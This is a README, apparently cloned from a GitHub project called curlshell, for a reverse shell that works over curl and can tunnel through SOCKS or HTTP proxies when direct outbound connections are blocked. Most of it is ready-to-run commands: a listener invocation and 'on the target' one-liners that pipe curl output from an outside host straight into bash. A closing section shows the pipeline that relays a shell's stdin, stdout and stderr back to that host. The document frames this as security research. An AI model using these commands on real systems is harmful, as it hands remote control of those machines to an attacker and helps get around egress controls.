 # Reverse shell using curl

(Cloned from [https://github.com/irsl/curlshell](https://github.com/irsl/curlshell))

During security research, you may end up running code in an environment,
where establishing raw TCP connections to the outside world is not possible;
outgoing connection may only go through a connect proxy (HTTPS_PROXY).
This simple interactive HTTP server provides a way to mux 
stdin/stdout and stderr of a remote reverse shell over that proxy with the
help of curl.

Generate a SSL Certificate:
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

## Without Proxy

```sh
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | bash
```

## With SOCKS Proxy
```sh
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
# On the target:
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | bash
```

## With HTTP Proxy
```sh
./curlshell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
# On the target:
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | bash
```

## With HTTP (plaintext)
```sh
./curlshell.py --listen-port 8080
```
```sh
# On the target:
curl -sfL http://1.2.3.4:8080 | bash
```

# How it works
The first cURL request pipes this into a bash:
```sh
stdbuf -i0 -o0 -e0 curl -X POST -sk https://1.2.3.4:8080/input \
    | bash 2> >(curl -sk -T - https://1.2.3.4:8080/stderr) \
    | curl -sk -T - https://1.2.3.4:8080/stdout
```

The bash then starts 3 cURL processes to connect stdin, stdout and stderr. HTTP's 'chunked transfer' does the rest.

